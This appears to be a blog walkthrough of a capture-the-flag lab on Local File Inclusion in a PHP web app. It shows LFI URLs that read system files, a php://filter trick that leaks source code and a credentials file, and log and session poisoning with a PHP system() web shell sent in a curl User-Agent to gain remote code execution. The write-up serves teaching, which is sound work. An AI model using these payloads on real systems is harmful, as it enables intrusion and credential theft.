






# Day 6

Oh gosh, outdated servers still on the network. A nightmare:

> During a routine security audit before the Incident, McSkidy discovered some recovery passwords on an old server. She created a ticket to decommission this server to reduce this security vulnerability. The Elf assigned to fix this vulnerability kept pushing off the task, and this never got done. Luckily, some of those recovery keys can be used to save some systems.

> Unfortunately, the only way to access the server is through an old web application. See if you can pull out those recovery keys to help McSkidy with her pursuit to save Christmas.

Today we're dealing with Local File Inclusion (LFI) vulnerabilities. Basically, a lot of scripting and programming languages allow you to include the contents of a file inside another file. This could be for brevity, access control, a bunch of reasons. But sometimes, a web app will decide which contents to include based on what's in the URL. Remember how with IDORs we could change a user\_id parameter in the URL to see other user profiles? LFIs are similar. The website looks at a value passed in the URL, like a file name, and will display contents based on that. The vulnerability that might arise from that is: what if we pass it a file name it wasn't intended to show?

Let's check out the website for today.



Our first thought might be to click "login" and try some credentials. But notice the URL?

```
http://10.10.15.58/index.php?err=error.txt
```

This is usually an indicator to try some LFI. It looks like the URL will look for whatever filename is passed to the "err" parameter and display that somewhere on the page. That's the answer to our first question:

> What is the entry point for our web application?

And our second should be easy:

> Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

If we put in that filename:

```
http://10.10.15.58/index.php?err=/etc/flag
```

Now we get the flag "included" in the contents of the page (I've changed the value; no spoilers.)



For our next trick, we have to get a bit tricker:

> Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?

If we try to include a PHP file instead of a text file on the page, the web server will try to run that script; we won't actually get to look at the code behind it. So going to:

```
http://10.10.15.58/index.php?err=index.php
```

Actually just prints an error and not much else. To read the code inside it though, we can sometimes (if the feature has been enabled on the server; it isn't by default) ask PHP to encode the page in base64 and include that instead.

```
http://10.10.15.58/index.php?err=php://filter/convert.base64-encode/resource=index.php
```

Now the page shows us a huge string of jumbled crap:

```
PD9waHAgc2Vzc2lvbl9zdGFydCgpOwokZmxhZyA9ICJUSE17NzkxZDQzZDQ2MDE4YTBkODkzNjFkYmY2MGQ1ZDllYjh9IjsKaW5jbHVkZSgiLi9pbmNsdWRlcy9jcmVkcy5waHAiKTsKaWYoJF9TRVNTSU9OWyd1c2VybmFtZSddID09PSAkVVNFUil7ICAgICAgICAgICAgICAgICAgICAgICAgCgloZWFkZXIoICdMb2NhdGlvbjogbWFuYWdlLnBocCcgKTsKCWRpZSgpOwp9IGVsc2UgewoJJGxhYk51bSA9ICIiOwogIHJlcXVpcmUgIi4vaW5jbHVkZXMvaGVhZGVyLnBocCI7Cj8+CjxkaXYgY2xhc3M9InJvdyI+CiAgPGRpdiBjbGFzcz0iY29sLWxnLTEyIj4KICA8L2Rpdj4KICA8ZGl2IGNsYXNzPSJjb2wtbGctOCBjb2wtb2Zmc2V0LTEiPgogICAgICA8P3BocCBpZiAoaXNzZXQoJGVycm9yKSkgeyA/PgogICAgICAgICAgPHNwYW4gY2xhc3M9InRleHQgdGV4dC1kYW5nZXIiPjxiPjw/cGhwIGVjaG8gJGVycm9yOyA/PjwvYj48L3NwYW4+CiAgICAgIDw/cGhwIH0KCj8+CiA8cD5XZWxjb21lIDw/cGhwIGVjaG8gZ2V0VXNlck5hbWUoKTsgPz48L3A+Cgk8ZGl2IGNsYXNzPSJhbGVydCBhbGVydC1kYW5nZXIiIHJvbGU9ImFsZXJ0Ij5UaGlzIHNlcnZlciBoYXMgc2Vuc2l0aXZlIGluZm9ybWF0aW9uLiBOb3RlIEFsbCBhY3Rpb25zIHRvIHRoaXMgc2VydmVyIGFyZSBsb2dnZWQgaW4hPC9kaXY+IAoJPC9kaXY+Cjw/cGhwIGlmKCRlcnJJbmNsdWRlKXsgaW5jbHVkZSgkX0dFVFsnZXJyJ10pO30gPz4KPC9kaXY+Cgo8P3BocAp9Cj8+
```

This is actually the source code of index.php, encoded in base64. We can decode it with an online tool or in Linux:

```
echo [text] > b64.in
cat b64.in | base64 -d
```

Now we can see the source (there's a flag above that I've cut off.)



We can see on that first line that index.php is including a file inside the ./includes/ folder called creds.php. That looks juicy, so let's use the same technique to look inside that:

```
http://10.10.15.58/index.php?err=php://filter/convert.base64-encode/resource=includes/creds.php
```

That gives us:

```
PD9waHAgCiRVU0VSID0gIk1jU2tpZHkiOwokUEFTUyA9ICJBMEMzMTVBdzNzMG0iOwo/
```

Which we decode:

```
echo 'PD9waHAgCiRVU0VSID0gIk1jU2tpZHkiOwokUEFTUyA9ICJBMEMzMTVBdzNzMG0iOwo/' | base64 -d
```

And get:

```
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
?        
```

Now we can log in to the site! But what we really want is to get an RCE, remote code execution, which could lead to us getting into the underlying server itself. We can view the logs here:

```
http://10.10.15.58/logs.php
```

It looks like they display every username attempting to log in and every URL visited, as well as the user's user-agent. The page helpfully explains this:

```
Here are the logs in the following format: user:ip:USER-Agent:Page. The log file location at: ./includes/logs/app_access.log
```

Normally, a web dev wouldn't be so kind to us. There's two ways we can do this. First, by entering some PHP code in as the username when we attempt to log in:



Because the logs display the username, when we include them via our LFI, we'll be able to add a "cmd" parameter at the end and run commands on the underlying system.

The second way is by manipulating our User-Agent when we make a request to the server. We can do this with a tool called `curl` that's super useful and passing it the `-A` option to specify our User-Agent. (A User-Agent is just a string that tells websites a little bit about how you're accessing the server, like the browser you're using. It's often kept in logs so a ripe vector for log poisoning attacks like this.)

```
curl -A "<?php echo system(\$_GET['cmd']); ?>" http://10.10.15.58/login.php
```

Either way, once we've inserted our little script into the log, we can access it by visiting:

```
http://10.10.15.58/index.php?err=./includes/logs/app_access.log&cmd=id
```

And we should see a line like:

```
uid=33(www-data) gid=33(www-data) groups=33
```

Because we're attempting to execute the `id` command on the underlying Linux server.



There we go, we've demonstrated that we have code execution. The question is:

> Use the LFI to gain RCE via the log file page. What is the hostname of the webserver?

And we can get this just by going:

```
http://10.10.15.58/index.php?err=./includes/logs/app_access.log&cmd=hostname
```

Let's try the bonus question too:

```
The current PHP configuration stores the PHP session files in /tmp. Use the LFI to call the PHP session file to get your PHP code executed. 
```

I didn't actually know about this technique before today but it's cool. We can execute code in PHP session logs similar to the way we did it in the web server access logs. THM says common locations for these session files are in:

c:\Windows\Temp /tmp/ /var/lib/php5 /var/lib/php/session

And the file itself is by default called sess\_\<SESSION\_ID>. We can find our session ID in our cookies; mine right now is 5spqgg6rcl99rlm6k085nrv8a5. So knowing the session file is in /tmp and what it's called, we just need to pass some PHP code to a username when we attempt to log in (as we did above) and then visit the session log with our command appended:

```
http://10.10.15.58/index.php?err=/tmp/sess_5spqgg6rcl99rlm6k085nrv8a5&cmd=id
```



Nice.
